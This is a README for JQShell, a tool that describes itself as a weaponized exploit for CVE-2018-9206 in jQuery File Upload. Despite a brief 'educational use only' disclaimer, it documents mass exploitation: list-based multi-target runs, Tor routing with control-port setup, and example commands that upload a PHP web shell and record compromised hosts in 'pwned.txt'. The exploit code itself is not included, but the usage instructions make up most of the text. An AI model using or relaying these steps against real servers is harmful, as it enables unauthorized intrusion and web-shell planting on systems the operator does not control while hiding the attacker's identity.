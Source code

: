 **Disclaimer**

Using this agianst servers you dont control, is illegal in most countries.
The author claims no responsibility for the actions of those who use this software for illegal purposes.
This software is intended for educational use only.
No servers were illegally pwned in the making of this software.

**JQShell** A weaponized version of CVE-2018-9206.

**Features**

Single Target
Multi Target
Tor

**Prerequisites**

Please install these required packages.

**Python3**

```shell
pip3 install requests pysocks subprocess stem
```
**Tor Control Port**

To use tor, in this script, you must edit your torrc file and enable tor control port on 9051.

Typically this file is here: /etc/tor/torrc

open this file and change this line:

#ControlPort 9051

to

ControlPort 9051

restart tor service

**Usage**

```shell
usage: jqshell.py [-h] [-l LIST_INIT] [-t SINGLE_TARGET] -s SHELL_LOC
                  [-o OUTPUTZ] [-tor]

optional arguments:
  -h, --help            show this help message and exit
  -l LIST_INIT, --list LIST_INIT
                        Select for a list of assets to exploit
  -t SINGLE_TARGET, --target SINGLE_TARGET
                        Single exploit target
  -s SHELL_LOC, --shell SHELL_LOC
                        This is required, put the fullpath to your shell
  -o OUTPUTZ, --output OUTPUTZ
                        This is full path to were you want to save your list
                        of confirmed hosts
  -tor, --tor_proxy     Select if you have tor installed, you will need to
                        enable control port
```
**Examples**

Running agianst single target.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php
```
Running agianst single target, with saving output.
```shell
python3 jqshell.py -t localhost/folderwerejqueryis -s /var/www/html/shell.php -o pwned.txt
```
Running a list, with saving output.
```shell
python3 jqshell.py -l /opt/jquery/test.txt -s /var/www/html/shell.php -o pwned.txt
```
**Author**

* **Joshua Whitaker** 
* *Twitter* [@_Stahlz](https://twitter.com/_Stahlz)
* *Email* - [stahl@stahl.io](stahl@stahl.io)
* *Website* - [stahl.io](http://stahl.io)



